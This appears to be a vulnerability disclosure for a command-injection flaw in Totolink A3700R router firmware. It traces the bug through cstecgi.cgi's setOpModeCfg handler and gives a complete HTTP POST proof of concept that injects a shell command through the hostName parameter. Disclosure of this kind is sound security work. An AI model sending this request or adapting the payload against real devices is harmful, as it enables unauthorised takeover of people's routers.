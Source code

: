 
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Command Injection, allowing arbitrary command execution 

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the function `FUN_0042455c` within the `cstecgi.cgi` file. The vulnerability arises from the lack of input validation on the `hostName` parameter, allowing for command injection. With the appropriate construction, it can lead to the execution of arbitrary commands.

![](Pasted%20image%2020231024194653.png)


`cstecgi.cgi` uses the value of `topicurl` to process different function interfaces. This command injection vulnerability is triggered through `setOpModeCfg`. 
By cross-referencing the `FUN_0042455c` function, we can identify the function call chain, namely, `FUN_0042dd5c -> FUN_00425770 -> FUN_0042455c`. 
To enter `FUN_00425770`, it is necessary to control the value of the `opmode` parameter to be different from `gw`. 
Furthermore, within the `FUN_0042455c` function, control over the `proto` parameter is required to be any value other than `0, 3, 4, 6` to ensure the triggering of the command injection vulnerability. 
By controlling the `hostName` parameter and constructing it appropriately, arbitrary command execution can be achieved.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 88
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl":"setting/setOpModeCfg","proto":"5","opmode":"rpt","hostName":"1';ls \n"}


~~~

### **Impact**：

![](Pasted%20image%2020231024201053.png)